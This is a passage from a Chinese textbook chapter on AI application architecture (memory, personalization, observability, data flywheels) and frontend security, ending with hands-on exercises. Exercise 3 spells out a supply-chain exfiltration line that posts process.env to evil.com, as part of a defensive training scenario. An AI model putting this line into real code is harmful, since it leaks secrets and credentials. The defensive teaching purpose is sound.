    style PM fill:#d4edda,stroke:#28a745
```

**重要性评分与巩固算法**：

$$ \text{Score}(m) = w_1 \cdot \text{Recency}(m) + w_2 \cdot \text{Frequency}(m) + w_3 \cdot \text{ExplicitFeedback}(m) + w_4 \cdot \text{TaskRelevance}(m) $$

**公式逐步推导与解释**：
1. **设计目标**：量化一条记忆片段 $m$ 的长期价值，决定其是否晋升至长期存储（EM/SM/PM）或被遗忘。
2. **新近度衰减**：$\text{Recency}(m) = e^{-\lambda \cdot (t_{now} - t_m)}$。采用指数衰减而非线性，符合艾宾浩斯遗忘曲线，$\lambda$ 为半衰期系数（可通过 A/B 测试调优，如设定半衰期 30 天则 $\lambda = \ln 2 / 30$）。
3. **频次强化**：$\text{Frequency}(m) = \log(1 + \text{access\_count}_m)$。对数归一化防止高频访问记忆垄断分数，体现“温故知新”效应。
4. **显式反馈**：$\text{ExplicitFeedback}(m) \in \{-1, 0, +1\}$。用户点赞/踩/收藏直接修正权重，引入人工偏好对齐。
5. **任务相关性**：$\text{TaskRelevance}(m)$。当前任务 Embedding 与记忆 Embedding 余弦相似度，实现“情境激活”机制。
6. **权重学习**：$w_1..w_4$ 可通过离线学习排序 (LTR) 模型在历史交互数据上拟合，或启发式设定（如 $w_1=0.3, w_2=0.2, w_3=0.3, w_4=0.2$）。

**这套公式定义了**：记忆的“价值”由新近度、频次、显式反馈、任务相关性加权决定。巩固调度器定期扫描 STM，高分片段晋升至 EM/SM/PM；低分片段随时间衰减归档或删除。认知科学理论基础参考 Atkinson-Shiffrin 多储存模型与 Tulving 情景/语义记忆区分。

**巩固调度策略**：
- **触发条件**：对话轮次 % N == 0、或会话结束、或 STM 容量达 80%。
- **动作**：摘要压缩 STM -> 抽取实体关系入 SM -> 高价值片段入 EM -> 高频模式抽象入 PM。

### 9.13.2 个性化建模：动态画像与深度对齐

来源：《20230418_110.md》

> "实现‘千人千面’：从显式反馈/隐式行为中抽取用户画像标签，构建动态画像向量，结合 RAG 召回个人相关记忆，通过提示词注入或 LoRA 微调实现风格、偏好、知识水平的深度对齐。"

**用户画像构建管道（流程图）**：

```mermaid
graph TD
    A[用户交互] --> B{显式反馈?}
    B -->|是| C[更新显式偏好]
    B -->|否| D[LLM 抽取隐式标签]
    D --> E[更新语义记忆 KG]
    C --> E
    E --> F[序列化画像文本]
    F --> G[向量化更新用户向量]
    G --> H[个性化检索/提示词注入]
```

**代码实现示例**：

```python
class UserProfiler:
    def __init__(self, llm, vector_store, kg):
        self.llm = llm
        self.vector_store = vector_store  # 情景记忆
        self.kg = kg                      # 语义记忆 (知识图谱)
    
    def update_from_interaction(self, user_id: str, interaction: Interaction):
        # 1. 显式反馈处理
        if interaction.feedback:
            self._update_explicit_preference(user_id, interaction.feedback)
        
        # 2. 隐式行为分析 (LLM 抽取)
        extraction_prompt = f"""
        从以下对话中抽取用户偏好/事实/技能水平标签，输出 JSON:
        {{"preferences": ["偏好简洁回答", "偏好代码示例"], 
          "facts": ["使用 TypeScript", "部署在 Kubernetes"],
          "skill_level": "senior"}}
        对话: {interaction.history[-3:]}  # 最近 3 轮
        """
        profile_delta = self.llm.generate_json(extraction_prompt)
        
        # 3. 更新语义记忆 (KG)
        for fact in profile_delta["facts"]:
            self.kg.upsert_triplet(user_id, "has_fact", fact, confidence=0.8)
        for pref in profile_delta["preferences"]:
            self.kg.upsert_triplet(user_id, "prefers", pref, confidence=0.7)
        
        # 4. 更新向量画像 (用于检索相关记忆)
        profile_text = self._serialize_profile(user_id)
        embedding = embed(profile_text)
        self.vector_store.upsert(user_id, embedding, metadata={"type": "user_profile"})
    
    def get_personalized_context(self, user_id: str, query: str) -> str:
        # 1. 召回个人相关情景记忆
        user_embedding = self.vector_store.get_embedding(user_id)
        relevant_memories = self.vector_store.similarity_search_by_vector(
            user_embedding, k=5, filter={"user_id": user_id}
        )
        
        # 2. 召回画像标签
        profile_tags = self.kg.get_entity_relations(user_id, ["prefers", "has_fact", "skill_level"])
        
        # 3. 组装注入上下文
        return f"""
        [用户画像] {profile_tags}
        [相关历史片段] {format_memories(relevant_memories)}
        """
```

**深度对齐两条路径**：

| 路径 | 机制 | 延迟 | 适用场景 | 成本 |
| :--- | :--- | :--- | :--- | :--- |
| **提示词注入 (In-Context)** | 将画像、相关记忆拼入 System Prompt / User Prompt | 低 (仅增加 Token) | 轻量个性化、动态变化偏好、冷启动 | 低 (Token 成本) |
| **LoRA 微调** | 在用户专属数据上训练低秩适配器 | 高 (需训练/加载 Adapter) | 深度风格迁移、固化专业知识、高频重复用户 | 中 (存储 Adapter 权重 ~MB 级) |

**工程化选择**：默认提示词注入，仅对高价值、高粘性、风格强一致性需求的用户（如企业专属助手、编程搭档）训练/加载 LoRA Adapter。支持动态切换：`model = base_model.merge_adapter(user_lora)` 或推理时动态加载。

### 9.13.3 记忆冲突消解与信念修正：保证一致性的自我进化

长期记忆必然面临新旧知识冲突、事实过时、用户认知偏差等问题。必须引入冲突检测 -> 信念修正 -> 用户仲裁的闭环。来源：《20230418_106.md》

> "解决长期记忆中的矛盾与过时：设计新旧知识冲突检测（矛盾度打分）、版本化知识库、信念修正链（CoT 验证）、用户确认回环机制，保证记忆系统随时间演化的逻辑一致性与事实准确性。"

**冲突检测与修正流程（流程图）**：

```mermaid
graph TD
    A[新知识/观察 进入系统] --> B{冲突检测器}
    B -->|向量相似度高 + 语义矛盾| C[矛盾对]
    C --> D[CoT 信念修正链]
    D --> E[LLM 推理: 分析新旧证据、时效性、来源可信度]
    E --> F{结论}
    F -->|新知识取代旧| G[版本化更新: 旧知识标记 deprecated, 新知识版本+1]
    F -->|合并/细化| H[融合生成新版本]
    F -->|无法自动判断| I[用户确认回环]
    I --> J[向用户提问: "检测到冲突: 旧知识 A vs 新知识 B, 请裁决"]
    J --> K[用户裁决 -> 更新记忆 + 记录裁决理由]
    
    style I fill:#fff3cd,stroke:#ffc107
    style K fill:#cce5ff,stroke:#007bff
```

**CoT 信念修正 Prompt 模版**：

```python
BELIEF_REVISION_PROMPT = """
你是一个知识库维护专家。检测到两条知识可能冲突，请分析并给出处理建议。

旧知识 (版本 {old_ver}, 来源: {old_source}, 时间: {old_time}, 置信度: {old_conf}):
{old_knowledge}

新知识 (来源: {new_source}, 时间: {new_time}, 置信度: {new_conf}):
{new_knowledge}

请逐步推理:
1. 核心主张是否直接矛盾？(是/否/部分)
2. 时间维度：哪个更新？是否涉及时效性变化 (如 API 废弃、政策变更)？
3. 来源可信度：官方文档 > 权威博客 > 用户反馈 > 模型推测。
4. 语义范围：是否为同一实体同一属性的不同取值？还是不同条件下的分支？
5. 综合判断：REPLACE(新替旧) / MERGE(融合) / KEEP_BOTH(条件区分) / ASK_USER(需人工裁决)。

输出 JSON: {{"decision": "REPLACE|MERGE|KEEP_BOTH|ASK_USER", "reasoning": "...", "merged_knowledge": "..."}}
"""
```

**版本化知识库设计**：

```sql
-- 语义记忆版本表
CREATE TABLE semantic_memory_versions (
    id UUID PRIMARY KEY,
    entity_id UUID NOT NULL,          -- 实体 ID (如 user:123, concept:CSP)
    predicate VARCHAR(100) NOT NULL,  -- 关系/属性 (如 prefers, has_config)
    object_value JSONB NOT NULL,      -- 值
    version INT NOT NULL DEFAULT 1,
    status VARCHAR(20) NOT NULL,      -- ACTIVE / DEPRECATED / MERGED
    confidence FLOAT NOT NULL,
    source VARCHAR(50),               -- USER_FEEDBACK / AGENT_OBSERVATION / EXTERNAL_API / INFERENCE
    evidence TEXT,                    -- 支持证据
    decided_by VARCHAR(50),           -- AUTO / USER_ARBITRATION
    created_at TIMESTAMP DEFAULT NOW(),
    deprecated_at TIMESTAMP,
    UNIQUE(entity_id, predicate, version)
);
```

---

## 9.14 可观测性、评测与数据飞轮 —— 让 AI 系统可看、可测、可优化

### 9.14.1 全链路可观测性：Trace/Span 标准化与 LangSmith/LangFuse 落地

AI 原生应用的“黑盒”特性要求极致的可观测性。每一次 LLM 调用、工具执行、检索步骤都必须留下结构化、可关联、可聚合的轨迹。来源：《20230418_105.md》

> "实现 LLM 应用的‘显微镜’：标准化 Trace 格式（输入/输出/Token/延迟/错误），嵌套 Span 记录 Chain/Agent/Tool/RAG 每一步执行细节，支持成本核算、瓶颈定位、异常告警与复现调试。"

**标准化 Trace 数据模型 (OpenTelemetry 语义规范扩展)**：

```json
{
  "trace_id": "abc123",
  "span_id": "span_001",
  "parent_span_id": null,
  "name": "Agent.run",
  "kind": "LLM_CHAIN",
  "start_time": "2024-01-15T10:00:00.123Z",
  "end_time": "2024-01-15T10:00:05.456Z",
  "status": "OK",
  "attributes": {
    "llm.model": "gpt-4o",
    "llm.temperature": 0.7,
    "llm.input_messages": "[{\"role\": \"user\", \"content\": \"...\"}]",
    "llm.output_messages": "[{\"role\": \"assistant\", \"content\": \"...\"}]",
    "llm.usage.prompt_tokens": 1200,
    "llm.usage.completion_tokens": 300,
    "llm.usage.total_tokens": 1500,
    "llm.estimated_cost_usd": 0.0045,
    "chain.steps": 5
  },
  "events": [
    {"name": "tool.call", "time": "...", "attributes": {"tool": "retriever", "input": "...", "output": "..."}},
    {"name": "tool.call", "time": "...", "attributes": {"tool": "calculator", "input": "2+2", "output": "4"}}
  ]
}
```

**嵌套 Span 层级示例 (Agent 执行一次完整任务)（架构图）**：

```mermaid
graph TD
    Trace[Trace: Agent Task - "生成周报"]
    Trace --> Span1[Span: Agent.run (Root)]
    Span1 --> Span2[Span: Planner.plan]
    Span2 --> Span3[Span: LLM.call (Planning)]
    Span1 --> Span4[Span: Executor.execute_step_1]
    Span4 --> Span5[Span: Tool.call (SQL Query)]
    Span4 --> Span6[Span: LLM.call (Code Gen)]
    Span1 --> Span7[Span: Executor.execute_step_2]
    Span7 --> Span8[Span: Tool.call (File Write)]
    Span1 --> Span9[Span: Memory.save]
    Span9 --> Span10[Span: VectorStore.upsert]
    
    style Trace fill:#e8eaf6,stroke:#3f51b5
    style Span1 fill:#fff3e0,stroke:#ff9800
    style Span3 fill:#fce4ec,stroke:#e91e63
    style Span5 fill:#e0f2f1,stroke:#009688
```

**这段 JSON 与架构图展示了**：标准化的 Trace 结构包含完整的元数据（模型、参数、Token 用量、成本估算）与嵌套的 Span 事件流，使得从“一次 Agent 运行”钻取到“某次 Tool 调用的输入输出”成为可能，是成本核算、性能瓶颈定位、错误复现的基础设施。

**落地工具选型**：

| 工具 | 定位 | 核心优势 | 集成方式 |
| :--- | :--- | :--- | :--- |
| **LangSmith** | LangChain 官方、托管 SaaS | 零代码自动捕获 LangChain/LangGraph 调用、Prompt 版本管理、数据集标注、回归测试 | `langsmith.tracing.enabled=true` 环境变量 |
| **LangFuse** | 开源、自托管、数据自主 | 完整 Trace/评测/提示词管理、PostgreSQL/ClickHouse 存储、Grafana 集成、成本核算 | `@langfuse/vercel-ai` / Python SDK / OpenTelemetry Exporter |
| **OpenTelemetry + 自建** | 标准化、厂商中立 | 统一技术栈 (前端/后端/基建/模型服务同一套)、自定义属性、无锁定 | OTel SDK + Collector + ClickHouse/Jaeger/Tempo |

### 9.14.2 分层评测体系：从单元测试到在线 A/B 测试

来源：《20230418_110.md》

> "构建金字塔评测策略：单元级（Prompt/Tool/Retriever 组件测试）、系统级（RAGAS/MT-Bench 离线基准）、业务级（在线 A/B 测试、用户留存/任务完成率），建立指标体系与自动化回归流水线。"

**评测金字塔（架构图）**：

```mermaid
graph TD
    A[业务级 在线 A/B 测试] --> B[系统级 离线基准]
    B --> C[单元级 组件测试]
    
    C --> C1[Prompt 单测: 固定输入->期望输出模式/关键词]
    C --> C2[Tool 单测: Mock 返回值/异常/超时]
    C --> C3[Retriever 单测: Recall@k / MRR / NDCG]
    C --> C4[Parser 单测: 结构化输出解析成功率]
    
    B --> B1[RAGAS: Faithfulness/Relevancy/Precision/Recall]
    B --> B2[MT-Bench / AlpacaEval: LLM-as-a-Judge 综合能力]
    B --> B3[自定义任务基准: SQL生成准确率/代码通过率/摘要质量]
    
    A --> A1[随机分流: 新版本 vs 基线版本]
    A --> A2[核心指标: 任务完成率 / 用户满意度评分 / 留存 / Token成本 / 延迟 P99]
    A --> A3[统计显著性检验: t-test / Bootstrap CI]
    A --> A4[逐步放量: 1% -> 5% -> 20% -> 100%]
    
    style A fill:#ffcccc,stroke:#ff0000
    style B fill:#fff3cd,stroke:#ffc107
    style C fill:#ccffcc,stroke:#00ff00
```

**CI/CD 自动化回归流水线**：

```yaml
# .github/workflows/eval.yml
jobs:
  unit-test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: pnpm install --frozen-lockfile
      - run: pnpm test:unit --coverage  # 含 Prompt/Tool/Retriever 单测
  
  offline-benchmark:
    needs: unit-test
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run RAGAS Evaluation
        run: |
          python -m eval.run_ragas --dataset gold_set_v3.json --config eval_config.yaml
          # 输出指标到 JSON, 上传 Artifact
      - name: Check Regression
        run: |
          python -m eval.check_regression --current metrics.json --baseline artifacts/baseline_metrics.json --threshold 0.02
          # 任意核心指标下降 > 2% 则失败阻断
  
  canary-deploy:
    needs: offline-benchmark
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Deploy Canary (1%)
        run: kubectl set image deployment/ai-app ai-app=${{ github.sha }}-canary
      
      - name: Monitor Canary Metrics (30min)
        run: |
          # 查询 Prometheus/Grafana API 核心指标
          python -m monitor.canary_check --duration 1800 --threshold-error-rate 0.01 --threshold-latency-p99 5000
      
      - name: Progressive Rollout
        if: success()
        run: |
          for pct in 5 20 50 100; do
            kubectl patch deployment ai-app -p '{"spec":{"replicas":'$pct'}}'
            sleep 600 # 10min 观察
            python -m monitor.canary_check --duration 600 || exit 1
          done
```

### 9.14.3 数据飞轮架构：规模化自我进化闭环

来源：《20230418_136.md》

> "设计数据飞轮核心管道：高质量轨迹采样 -> 专家/模型标注 -> 偏好数据构建 (SFT/DPO) -> 模型迭代 -> 灰度发布 -> 线上收集，实现‘用得越多、懂得越多’的规模化自我进化闭环。"

**数据飞轮核心管道 (端到端流程图)**：

```mermaid
graph LR
    subgraph Online [线上服务层]
        U[用户交互] --> App[AI 应用]
        App --> Log[结构化日志<br/>(Trace + 业务标签)]
    end
    
    subgraph Pipeline [数据飞轮管道 (批/流处理)]
        Log --> Sample[智能采样器<br/>高价值: 低置信度/用户负反馈/异常/长尾任务]
        Sample --> Annotate[标注工作流]
        Annotate -->|专家标注| Gold[黄金标注集]
        Annotate -->|模型标注 + 专家复核| Pref[偏好数据对<br/>(Prompt, Chosen, Rejected)]
        Gold --> Train[SFT 训练]
        Pref --> Align[DPO/ORPO 对齐]
    end
    
    subgraph Model [模型迭代层]
        Train --> NewModel[新版本 Base/Adapter]
        Align --> NewModel
        NewModel --> Eval[离线评测通过]
        Eval --> Registry[模型注册中心<br/>版本/指标/制品]
    end
    
    subgraph Deploy [发布层]
        Registry --> Canary[灰度发布 1%]
        Canary --> A/B[A/B 测试验证]
        A/B -->|胜出| Prod[全量发布]
        Prod --> U
    end
    
    style Sample fill:#e1bee7,stroke:#7b1fa2
    style Annotate fill:#ffe0b2,stroke:#ff9800
    style NewModel fill:#cce5ff,stroke:#007bff
    style Prod fill:#d4edda,stroke:#28a745
```

**这张图展示了**：数据飞轮将“模型部署”转化为“持续进化的数据产品线”。关键工程化细节包括：
1.  **智能采样策略**：不全量标注。优先采样用户显式负反馈、模型低置信度输出、规则触发异常、长尾任务类型。
2.  **偏好数据构建**：Chosen 为专家修正后的最佳回答或用户接受的回答；Rejected 为模型原始输出或用户拒绝的回答。格式标准化：`{"prompt": "...", "chosen": "...", "rejected": "..."}`。
3.  **模型版本管理**：Base Model 月/季度迭代；LoRA Adapters 周/日迭代，挂载至 Base Model。注册中心记录完整元数据。
4.  **灰度与回滚**：按用户 ID/租户/流量百分比路由，关键指标异常自动秒级回滚。工程化落地案例参考 Uber Michelangelo、DoorDash 数据飞轮、Netflix 模型管理平台技术博客。

---

## 9.15 多源对照

本章涉及的核心概念（如 CSP 部署策略、Trusted Types 落地、RAG 评测指标、Agent 范式对比）在多篇参考素材中均有覆盖。以下梳理共识与分歧：

### 9.15.1 CSP 部署策略：渐进式 vs 激进式

**共识**：
- 必须使用 `Report-Only` 模式收集基线，避免误拦业务流量。
- `nonce` + `strict-dynamic` 是现代 CSP 的最佳实践核心。
- 哈希值作为内联脚本的兜底授权手段。

**分歧**：
- **《20230418_042.md》** 强调 `strict-dynamic` 可忽略域名白名单，简化维护。
- **工程实践中**发现：部分老旧第三方脚本（如某些广告/统计 SDK）不支持被受信脚本动态加载（自身再次 `createElement` 且未传播 `nonce`），导致 `strict-dynamic` 失效，仍需保留最小域名白名单兜底。
- **建议**：默认开启 `strict-dynamic`，维护一个最小允许列表给不兼容的第三方脚本，并推动第三方 SDK 适配。

### 9.15.2 Trusted Types 采用时机：默认开启 vs 按需开启

**共识**：
- Trusted Types 是防御 DOM XSS 的终极方案，应尽早纳入基线。
- 配合 DOMPurify 作为 `createHTML` 实现，兼容富文本业务。

**分歧**：
- **《20230418_042.md》** 隐含建议全站强制开启 (`trustedTypes: 'allow-duplicates'` 仅开发用)。
- **大型存量项目**反馈：第三方库（如老版本编辑器、图表库）大量直接操作 `innerHTML`，全量开启导致大面积报错，修改成本极高。
- **建议**：新项目强制开启；存量项目采用逐页面/逐组件灰度：先开启 `Report-Only` 等效的 `TrustedTypesEnforcement`（通过 CSP `require-trusted-types-for 'script'` 配合 Report-Only），收集违规栈轨迹，模块化修复，模块验收通过后切入 Enforce。

### 9.15.3 Agent 范式选择：ReAct vs Plan-and-Execute

**共识**：
- ReAct 适合短链路、工具调用简单的场景。
- Plan-and-Execute 适合长链路、需人工审计、可并行的复杂任务。

**分歧**：
- **《20230418_105.md》** 侧重范式对比，建议根据任务复杂度选择。
- **《20230418_109.md》** 强调 LLM Compiler 将 Plan-and-Execute 的并行执行效率提升至接近 ReAct，并结合 Reflexion 解决规划错误不可逆问题。
- **实测经验**：纯 Plan-and-Execute 在“探索性任务”（如调试未知代码库、科研实验设计）中表现差，因无法根据执行结果动态大幅调整计划。混合模式：高层 Plan-and-Execute 制定里程碑，里程碑内用 ReAct/Reflexion 灵活执行，是当前工程落地的 Sweet Spot。

---

## 9.16 设计中的取舍

**问：为什么不用「仅靠转义函数」防御 XSS，而要上 Trusted Types？**  
答：转义函数依赖开发者记忆与 disciplina，一处遗漏即漏洞，代码审查极难全覆盖（动态拼接、模板引擎、第三方库）。上下文敏感性极强：同一变量在 HTML 属性、JS 字符串、URL、CSS 中需不同转义，手动管理极易出错。Trusted Types 将安全下沉到浏览器运行时，强制类型检查，物理上阻断字符串流向敏感 Sink，实现“默认安全、显式授权”。这是架构级防御而非“编码规范级防御”。

**问：为什么 CSP 3 推荐 `strict-dynamic` 而非维护庞大的域名白名单？**  
答：域名白名单维护成本极高：微服务/多 CDN/频繁变更的第三方域名，白名单极易过期或过度宽松（`*.cloudfront.net`）。`strict-dynamic` 将信任委托给“受信脚本”：只要首屏入口脚本可信（nonce/hash 保障），其动态加载的依赖链自动受信，天然适配动态 Import、代码分割、第三方 SDK 懒加载。取舍在于：牺牲了“静态审计所有加载域名”的能力，换取运维自动化与开发体验。配合 `report-uri` 监控实际加载行为，实现“信任但验证”。

**问：RAG 系统中，为什么不直接用「长上下文模型」塞入全量文档，而要做检索？**  
答：成本方面，长上下文输入 Token 成本随长度线性/超线性增长，检索只需 Embedding 几千 Token + 召回 Top-K 片段，成本降低 10-100 倍。延迟方面，长上下文 Prefill 阶段延迟随 O(N^2) 增长（注意力机制），检索+短上下文 Decode 延迟稳定可控。效果方面，长上下文存在“中间遗忘”现象，关键信息被淹没，检索+重排序显式聚焦相关片段，精度更高。短上下文 + 高质量检索是当前性价比最优解。长上下文模型适合“需全文理解/跨文档推理/上下文本身即任务（如代码库全量分析）”场景。

**问：Agent 系统中，为什么要引入「显式规划」而非让 LLM 纯自由发挥？**  
答：显式计划可被人工审核、暂停、修改、并行调度，纯自由发挥是黑盒，生产不可控。Plan-and-Execute + Replanner 将错误局限在单步，支持回滚重试，ReAct 线性链路一步错步步错。规划阶段用强模型、执行阶段可用弱模型/专用模型，纯大模型自由发挥全程消耗昂贵 Token。引入规划增加了系统复杂度（Planner/Executor/Replanner 协作、状态同步），但换取了工程可控性与规模化部署能力。简单任务仍可用 ReAct 轻量化。

---

## 9.17 动手练习

### 练习 1：CSP 策略调试与绕过实战
给定一个包含内联脚本、外部 CDN 脚本、eval 动态执行、Webpack 内联 runtime 的典型 SPA 页面：
1. 编写初版 CSP 策略（Report-Only 模式），允许业务正常运行且无违规上报
2. 尝试移除 'unsafe-inline'，使用 nonce 重构内联脚本，观察 Webpack runtime 是否兼容
3. 引入 'strict-dynamic' 替代域名白名单，验证动态加载的第三方统计脚本是否受信
4. 故意注入一个恶意内联脚本，验证其被拦截并上报
回答问题：
- 为什么 'strict-dynamic' 会忽略后续的域名白名单？
- nonce 方案在 SSR 场景下如何保证每次渲染生成新值？
- 如果必须使用 eval（如某些模板引擎），如何在 CSP 中最小化授权？

### 练习 2：Trusted Types 策略编写与 Hook 改造
在一个使用 innerHTML 渲染富文本、使用 DOMParser 解析 HTML、使用第三方编辑器（如 Quill）的项目中：
1. 开启 `trustedTypes: 'allow-duplicates'` 创建默认策略 `default`，实现 `createHTML` 钩子调用 DOMPurify.sanitize
2. 为第三方编辑器创建专用策略 `quill`，仅允许其特定的 class/属性白名单
3. 尝试在控制台直接执行 `document.body.innerHTML = ''` 验证拦截效果
4. 处理 `DOMParser.parseFromString` 返回的 DocumentFragment 需再次赋值时的类型转换问题
回答问题：
- Trusted Types 如何防御 `location.href = 'javascript:...'` 这类 URL 上下文注入？
- 如果第三方库内部直接操作 `innerHTML` 且无法修改源码，如何通过 `trustedTypes.createPolicy` 配合 Monkey Patching 解决？
- 'allow-duplicates' 参数的作用是什么？生产环境建议开启吗？

### 练习 3：供应链攻击模拟与 CI 门禁搭建
模拟一次供应链投毒事件：某热门工具包 `useful-helpers` v2.3.4 被植入窃取环境变量代码：
1. 在本地 `node_modules` 手动篡改该包 `index.js` 注入 `fetch('https://evil.com', {method:'POST', body: JSON.stringify(process.env)})`
2. 运行 `npm audit` / `pnpm audit` / `snyk test` 对比三者检出能力差异
3. 配置 GitHub Actions 工作流：依赖安装后自动执行审计，高危漏洞阻断流水线（`--audit-level=high`）
4. 生成 CycloneDX 格式 SBOM（`@cyclonedx/bom`），上传至 GitHub Dependency Graph 或内部制品库
5. 编写 `package.json` 的 `overrides`/`pnpm.overrides` 字段强制降级该包至安全版本，验证 `lockfile` 变更
回答问题：
- `npm audit` 无法检出恶意代码（而非已知 CVE）时，如何通过 Socket / Socket CLI 发现异常行为（如网络请求、读取敏感文件）？
- Lockfile 完整性校验（`npm ci` / `pnpm install --frozen-lockfile`）如何防止 CI 环境被投毒？
- 如何在 Monorepo 中为不同 workspace 配置差异化的审计阈值与 SBOM 生成策略？

### 练习 4：安全基线清单落地与应急演练
针对团队现有前端项目，执行一次完整的安全基线对标与应急响应桌面推演：
1. **基线自检**：逐项核对《前端安全开发规范》清单（CSP、TT、HTTPS、Cookie 安全属性、依赖扫描、敏感信息泄露、Source Map 上传控制等），产出《合规差距分析报告》
2. **规范固化**：将检查项转化为 ESLint 插件规则（如 `eslint-plugin-security`、`@typescript-eslint/no-floating-promises`）、Commit Hook（`commitlint` 禁止提交含密钥文件）、CI 门禁（构建失败阻断）
3. **应急演练场景**：假设线上收到安全研究员报告：某页面存在存储型 XSS，攻击者可窃取管理员 Cookie 劫持后台：
   - 按 SOP 完成：漏洞确认分级（P0） -> 紧急下线/配置 WAF 阻断 -> 代码定位修复 -> 灰度验证 -> 全量发布 -> 复盘归档
   - 产出《安全事件复盘报告》，包含根因分析（5 Why）、修复验证用例、防止复发措施（如新增 CSP/TT 规则、新增代码审查检查项）
回答问题：
- 如何在不暴露漏洞细节的前提下，通过 GitHub Security Advisories / 内部平台完成负责任披露流程？
- 应急演练中发现的‘盲区’（如 Source Map 泄露导致源码重构、日志脱敏不全）如何纳入下一版基线清单？
- 如何量化安全投入产出比（ROI）：如阻断漏洞数、平均修复时间（MTTR）、安全培训覆盖率等指标纳入团队 OKR？

### 练习 5：RAG 系统端到端构建与评测
基于 LangChain/LlamaIndex 构建一个面向内部技术文档的 RAG 问答系统：
1. **索引构建**：加载 PDF/Markdown 文档，对比固定长度/语义分块/层级分块策略，生成向量索引（Chroma/FAISS）
2. **检索优化**：实现 BM25+稠密向量混合检索，接入 Cross-Encoder 重排序，对比召回率与精确率变化
3. **生成融合**：配置 PromptTemplate 注入上下文，启用 PydanticOutputParser 结构化输出，处理上下文超长截断
4. **评测闭环**：构建 50 条黄金问答对，计算 RAGAS 忠实度、答案相关性、上下文精确率/召回率，建立 CI/CD 自动化回归流水线
回答问题：
- 如何通过 HyDE（假设性文档嵌入）改善查询表示，解决查询与文档语义不对齐问题？
- 父子文档检索如何平衡上下文窗口限制与语义完整性？
- 在线业务中如何利用用户点击/停留信号作为隐式反馈，持续优化检索排序模型？

### 练习 6：Agent 多智能体协作仿真实验
基于 AutoGen/LangGraph 搭建一个软件开发多 Agent 团队（Product Manager、Architect、Coder、Tester、Reviewer）：
1. **角色定义**：为每个 Agent 编写 System Prompt，明确职责边界、输出格式、交接协议
2. **协作编排**：实现群聊模式下的需求分析→架构设计→代码生成→测试验证→代码评审全流程
3. **人工介入点**：在架构评审、测试失败、安全扫描不通过等关键节点设置 Human-in-the-loop 检查点
4. **成本控制**：监控 Token 消耗，实现基于重要性的上下文压缩与历史摘要机制
回答问题：
- 如何设计 Agent 间的结构化通信协议（如 JSON Schema），避免自然语言歧义导致的协作失败？
- 当 Agent 陷入循环或产生幻觉时，如何通过 Reflexion 机制或外部验证工具自动纠偏？
- 多 Agent 系统的延迟与成本如何随任务复杂度规模化？有哪些工程化优化手段（并行执行、缓存、模型级联）？

### 练习 7：长期记忆与个性化系统原型开发
为一个陪伴型 AI 助手实现分层记忆系统：
1. **短时记忆**：基于滑动窗口管理对话历史，支持摘要压缩（Summarization Memory）
2. **情景记忆**：将关键对话片段向量化存入向量数据库，支持基于重要性/时间衰减/访问频率的巩固与遗忘算法
3. **语义记忆**：抽取用户偏好、事实知识构建知识图谱，支撑推理与个性化响应
4. **程序性记忆**：将高频任务流程（如预订机票、生成周报）固化为 Skill/Tool，实现一键调用
5. **冲突消解**：检测新旧记忆矛盾，通过 CoT 验证发起信念修正，必要时请求用户仲裁
回答问题：
- 如何量化记忆的‘重要性评分’，设计自动化的巩固与遗忘调度策略？
- 当用户画像与当前对话语境冲突时，如何动态调整记忆检索权重？
- 程序性记忆（Skill）与 Agent 工具调用的边界在哪里？如何统一管理？

### 练习 8：提示工程自动优化管道搭建
实现一个基于 DSPy/OPRO 思想的提示词自动优化实验：
1. **任务定义**：选择一个分类/生成任务（如情感分析、SQL 生成），准备训练/验证/测试集
2. **初始提示词**：编写基础版 Prompt，包含指令、少样本示例、输出格式约束
3. **优化循环**：利用 LLM 作为优化器，基于验证集表现生成改进版提示词，迭代 5-10 轮
4. **评估对比**：对比优化前后在测试集上的准确率、Token 消耗、鲁棒性（扰动测试）
回答问题：
- 离散提示词空间的优化为何难以收敛？如何引入软提示或少样本选择缓解？
- 优化过程中如何防止过拟合验证集（Prompt 过度针对特定数据分布）？
- 生产环境中如何监控提示词性能漂移，触发自动重新优化？

---

## 9.18 本章小结

这一章中我们系统构建了前端安全体系与 AI 原生应用架构的双重知识体系。首先在前端安全领域，我们深入剖析了 XSS 攻击的三大分型与五大编码上下文转义规则，实战 DOMPurify 白名单清洗配置，并将 Trusted Types 作为终极防御手段从类型系统层面根治 DOM XSS；接着复现 CSRF 攻击链路，结合 SameSite Cookie 与双重提交令牌构建纵深防御；随后详解 CSP 3 核心指令 nonce、hash、strict-dynamic 的精准授权模型与 Report-Only 灰度发布工程化流程；进而建立供应链安全工具体系，对比 npm audit/Snyk/Socket 多层检测能力，落地 Lockfile 完整性校验与 CycloneDX SBOM 合规交付；最后将最佳实践固化为安全基线清单，接入 ESLint/Husky/CI 门禁左移，制定分级应急响应 SOP 与 SDL 集成方案。在 AI 原生应用架构方面，我们确立了 LLM 作为操作系统内核的范式转变，解构 Chain/Agent/Memory 三大核心抽象，推进提示工程结构化编程化（PromptTemplate/ExampleSelector/OutputParser），构建模块化 RAG Pipeline 与混合检索重排评测飞轮，演进 Agent 认知架构至 Plan-and-Execute/Reflexion/LLM Compiler，标准化工具协议与多 Agent 协作编排，设计分层记忆与个性化建模体系，最终建立全链路可观测性、分层评测体系与数据飞轮闭环，实现智能系统的持续自我进化。

本章我们一起学习了以下概念：

| 概念 | 解释 |
|------|------|
| XSS (跨站脚本攻击) | 通过注入恶意脚本窃取数据或劫持会话，分为存储型、反射型、DOM-based 三类 |
| 五大编码上下文 | HTML/Attribute/JS/URL/CSS 五种输出场景需对应专用编码函数，混用会导致防御失效 |
| DOMPurify | 成熟的 HTML 白名单清洗库，配置策略可安全处理富文本内容 |
| Trusted Types | 浏览器原生 API，强制敏感接口（如 innerHTML）仅接受可信类型对象，从根源消灭 DOM XSS |
| CSRF (跨站请求伪造) | 利用用户已登录态发起非自愿请求，核心防御是 SameSite Cookie 与双重提交令牌 |
| SameSite 属性 | Lax 允许链接跳转携带，Strict 完全禁止跨站携带，None 需配合 Secure 用于跨域场景 |
| CSP 3 (内容安全策略) | 声明式告知浏览器可加载/执行的资源白名单，核心指令 script-src 配合 nonce/hash/strict-dynamic |
| nonce (一次性数字) | 每次响应生成的随机值，内联脚本需携带匹配 nonce 才能执行，防止注入脚本执行 |
| strict-dynamic | 信任链传递机制：受信脚本动态创建的子脚本自动获得信任，简化复杂应用部署 |
